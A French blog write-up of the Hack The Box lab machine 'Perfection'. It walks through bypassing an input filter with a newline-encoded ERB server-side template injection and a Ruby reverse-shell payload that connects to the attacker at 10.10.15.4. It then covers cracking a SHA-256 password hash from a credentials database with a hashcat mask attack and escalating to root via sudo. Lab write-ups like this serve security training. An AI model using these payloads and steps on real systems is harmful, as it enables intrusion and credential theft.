 ```yaml
---
date: 2024-07-04T14:05:10-05:00
# description: ""
image: "/images/HTB-Perfection/Perfection.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: Perfection"
type: "post"
---
```


* Platforme: Hack The Box
* Lien: [Perfection](https://app.hackthebox.com/machines/Perfection)
* Niveau: Facile
* OS: Linux
---

Ce challenge débute avec un site web simple. Grâce à l'énumération, nous identifions une vulnérabilité à l'injection de modèle côté serveur (SSTI), que nous exploitons pour obtenir notre accès initial. Nous découvrons ensuite un fichier de base de données contenant des hachages de mots de passe, mais nos premières tentatives pour les craquer sont infructueuses. Après avoir lu les courriels des utilisateurs, nous apprenons que les mots de passe suivent un format spécifique. En utilisant cette information, nous employons une attaque par masque avec Hashcat et réussissons à récupérer le mot de passe. Enfin, nous exécutons `sudo -l` et découvrons des règles très permissives, nous permettant d'élever nos privilèges sans avoir besoin d'un mot de passe.

Addresse IP cible - `10.10.11.253`

## Balayage

```
nmap -sC -sV -oA  nmap/Perfection 10.10.11.253
```

**Résultats**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-25 14:20 CDT
Nmap scan report for 10.10.11.253
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
```

## Enumération

Le site web offre un "outil permettant de calculer des notes sur la base des données entrées.

`http://10.10.11.253/weighted-grade-calc` nous permet d'utiliser l'outil.

![Calculate your weighted grade table](/images/HTB-Perfection/weighed-grade.png)

Après avoir rempli le tableau et soumis les notes, nous obtenons des résultats.

![Weighted grades](/images/HTB-Perfection/weighed-grade-results.png)

En bas de page, nous lisons que l'application utilise `WEBrick 1.7.0`. 

![Website powered by WEBrick 1.7.0](/images/HTB-Perfection/WEBrick.png)

La recherche de vulnérabilités associées à cette version spécifique ne donne aucun résultat. L'énumération des sous-domaines et du code source aboutit au même résultat.

L'extension `Wappalyzer` révèle que l'application utilise `Ruby 3.0.2`.

![Wapplyzer results](/images/HTB-Perfection/wappalyzer.png)

Puisque l'application accepte les entrées de l'utilisateur, nous pouvons essayer quelques attaques par injection. Nous remplissons le tableau, capturons la requête avec Burp Suite et l'envoyons au repeater.

Le premier test est avec ` ; ls` comme valeur pour `category1`.

![Request in Burp for injection attack](/images/HTB-Perfection/injection-attack.png)

Il renvoie `Malicious input blocked` (entrée malveillante bloquée). Les essais avec différents payloads aboutissent au même résultat, il y a donc un filtre de données qu'il faut contourner.

![Injection blocked](/images/HTB-Perfection/injection-blocked.png)

Sur la page github de `WEBrick`, nous apprenons qu'il peut être utilisé à différentes fins. *Plus d'informations, [ici](https://github.com/ruby/webrick).*

![WEBrick github page](/images/HTB-Perfection/WEBrick-github.png)

Nous apprenons également qu'ERB est un système de templates pour Ruby. *Plus d'informations, [ici](https://github.com/ruby/erb).*

![ERB-template page](/images/HTB-Perfection/ERB-template.png)

N'étant pas familier avec ces technologies, nous nous faisons aider par ChatGPT sur comment vérifier si un serveur utilise le système de templating Ruby ERB. Nous utiliserons la troisième option.

![ERB tests](/images/HTB-Perfection/ERB-test.png)

## Accès Initial

En utilisant la payload indiqué, j'obtiens le message suivant:

`Invalid query parameters: invalid %-encoding (&amp;lt;%= 2 + 2 %&amp;gt;)`.

Après quelques modifications, il marche avec succès! Le filtre peut être contourné en utilisant `%0A` (pour une nouvelle ligne) et l'encodage d'URL.

> Payload utilisé pour le test: `%0A<%25%3d+2+%2b+2+%25>`

![Successful SSTI test](/images/HTB-Perfection/SSTI-working.png)

Ce résultat confirme que la cible est vulnérable au [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby) et qu'elle utilise effectivement Ruby ERB. Nous pouvons exécuter un reverse shell et accéder au système.

Ci-dessous, le payload (ruby) utilisé pour obtenir un reverse shell, il provient de [revshells](https://www.revshells.com/).

```
Chemistry%0A<%25%3d+`ruby+-rsocket+-e'spawn("sh",[%3ain,%3aout,%3aerr]%3d>TCPSocket.new("10.10.15.4",1337))'`+%25>
```

![Ruby reverse shell](/images/HTB-Perfection/ruby-revshell.png)

Nous obtenons une connexion sur notre listener et sommes connectés en tant qu'utilisateur `susan`. Nous améliorons notre shell avec les commandes ci-dessous.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
ctrl + z  
stty raw -echo; fg
stty rows 38 columns 116
```

![Foothold](/images/HTB-Perfection/foothold.png)

Le fichier `user.txt` se trouve dans `/home/susan`.

![User flag location](/images/HTB-Perfection/user-flag.png)

## Elévation de Privilèges

Nous utilisons `linpeas.sh` pour trouver des pistes d'escalade de privilèges.

* `susan` fait partie du groupe sudo

![User susan is a sudoer](/images/HTB-Perfection/susan-sudoer.png)

* Des fichiers contenant des informations d'identification sont trouvés

![Credentials files are found](/images/HTB-Perfection/susan-credentials.png)

* L'utilisateur a également reçu du courrier, qui peut être intéressant à consulter

![The user has some mail](/images/HTB-Perfection/susan-mail.png)


Il s'avère que nous ne pouvons pas exécuter `sudo -l` sans mot de passe.

![sudo -l requires password](/images/HTB-Perfection/susan-privesc.png)

Le fichier de base de données contient des hashs d'utilisateurs dont celui de `susan`.

```
strings /home/susan/Migration/pupilpath_credentials.db
```

![susan hash](/images/HTB-Perfection/susan-hash.png)

```
hashid 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f'
```

`hashid` révèle qu'il s'agit d'un hash SHA-256. Nous essayons d'utiliser hashcat avec le hachage mais cela échoue.

Après avoir lu le courrier, nous découvrons que le mot de passe utilise une structure spécifique.

![Reading susan mail](/images/HTB-Perfection/susan-mail1.png)

Nous tentons une attaque par masque et réussissons à récupérer le mot de passe `susan_nasus_413759210`.

> Dans une attaque par masque, nous avons connaissance des designs des mots de passe. Vous pouvez en lire plus à ce sujet [ici](https://hashcat.net/wiki/doku.php?id=mask_attack#mask_attack).

```
hashcat -m 1400 hash.txt -a 3 -d 1 susan_nasus_?d?d?d?d?d?d?d?d?d
```

![Reading susan mail](/images/HTB-Perfection/password-recovered.png)

Avec ce mot de passe, nous nous connectons via SSH. Avec `sudo -l` nous constatons que nous avons un accès direct à root.

![sudo -l command](/images/HTB-Perfection/sudo-l.png)

La règle mise en place est très permissive, permettant à l'utilisateur `susan` d'exécuter n'importe quelle commande, en tant que n'importe quel utilisateur ou groupe, ce qui lui donne un contrôle administratif complet lorsque l'on utilise `sudo`. 

En exécutant `sudo su`, nous obtenons un shell root et trouvons le drapeau root dans `/root`.

![root flag](/images/HTB-Perfection/root-flag.png)

Merci d'avoir lu mon blog et j'espère que cet article vous a été utile! Si vous voulez vous exercer au SSTI, jetez un coup d'œil à ces machines sur HackTheBox :
* [RedPanda](https://app.hackthebox.com/machines/RedPanda/information) (Facile)
* [Sandworm](https://app.hackthebox.com/machines/Sandworm/information) (Moyen)
* [Talkative](https://app.hackthebox.com/machines/Talkative/information) (Difficile)
